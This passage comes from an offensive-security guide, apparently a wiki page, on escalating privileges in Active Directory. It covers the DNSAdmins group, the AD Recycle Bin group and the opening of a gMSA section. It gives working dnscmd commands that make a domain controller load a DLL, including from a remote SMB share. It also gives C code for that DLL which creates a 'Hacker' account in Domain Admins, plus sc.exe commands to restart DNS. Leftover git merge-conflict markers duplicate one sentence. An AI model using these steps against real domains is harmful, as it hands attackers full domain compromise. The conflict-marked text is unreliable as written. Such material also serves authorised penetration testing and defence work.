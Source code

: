 Then, if you have a user inside the DNSAdmins group, you can make the DNS server load an arbitrary DLL with SYSTEM privileges. You can make the DNS server load a local or remote (shared by SMB) DLL file executing:

```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

<<<<<<< HEAD
An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:
=======
An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize ` to something like:
>>>>>>> 72cbd88461ed0e65da5433596050dd2ecb643f6b

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
        system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
        system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

So, when the **DNSservice **start or restart, a new user will be created.

Even having a user inside DNSAdmin group you **by default cannot stop and restart the DNS service. **But you can always try doing:

```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

****[**Learn more about this privilege escalation in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)

## **AD Recycle Bin**

This group gives you permission to read deleted AD object. Something juicy information can be found in there:

```bash
#This isn't a powerview command, it's a feature from the AD management powershell module of Microsoft
#You need to be in the "AD Recycle Bin" group of the AD to list the deleted AD objects
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## Group Managed Service Accounts (gMSA)

In most of the infrastructures, service accounts are typical user accounts with “**Password never expire**” option. Maintaining these accounts could be a real mess and that's why Microsoft introduced **Managed Service Accounts:**
